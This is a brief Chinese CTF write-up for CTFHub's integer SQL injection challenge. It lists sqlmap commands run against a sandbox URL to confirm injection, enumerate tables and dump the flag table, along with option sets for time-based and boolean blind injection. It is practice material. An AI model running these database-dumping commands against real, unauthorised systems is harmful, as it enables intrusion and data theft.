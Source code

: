 # SQL 整数型注入

```
python .\sqlmap.py -u http://challenge-632e9c308ddda607.sandbox.ctfhub.com:10800/?id=1
```
检查确实有问题

```

python sqlmap.py -u http://challenge-632e9c308ddda607.sandbox.ctfhub.com:10800/?id=1 --tables

```
显示有啥库

```

python .\sqlmap.py -u http://challenge-632e9c308ddda607.sandbox.ctfhub.com:10800/?id=1 --batch --dump -T flag -D sqli
```

拖库



```
 -T flag --columns
```




```
--flush-session --batch  --dbms=mysql --level=5 --risk=3 --technique=T 

```

时间盲注


```
--flush-session --batch  --dbms=mysql --level=5 --risk=3 --technique=B

```
布尔盲注


mysql结构

